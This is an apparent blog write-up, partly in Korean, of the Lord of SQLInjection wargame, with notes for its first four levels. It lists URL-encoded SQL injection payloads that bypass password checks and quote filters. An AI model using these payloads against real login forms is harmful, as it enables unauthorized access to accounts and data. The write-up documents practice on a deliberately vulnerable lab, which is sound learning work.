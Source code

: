 ```yaml
---
title: ["Lord of SQLi"]
date: 2024-10-01 09:00:00 +0900
categories: [writeup, los]
tags: [web, los, lord of sqli]
---
```


![자료](assets/img/writeup/los/los_all_clear.png)

Lord of SQLInjection 올클 기념으로 작성하는 문제별 포인트 정리  
(근데 이제 웹린이의 삽질을 곁들인..)  


### 1 GREMLIN
pw='or'1'='1 %27%20or%20%271%27=%271%27%20--%20

Some SQL parsers might not interpret -- if there is no space after.

### 2 COBOLT
id=admin%27%20--%20

### 3 GOBLIN
%27, &apos, &#39, \u0027, char(39) doesn't work.  
bypassing quote filter doesn't work -> have to think some other way to query admin.

no=2%20or%20no=2

### 4 ORC
pw=1' or id='admin'-- doesn't work.  
It is converted to pw=1' or id='admin'-- by addslashes function.  
It was not possible to find a way to bypass addslashes function.  
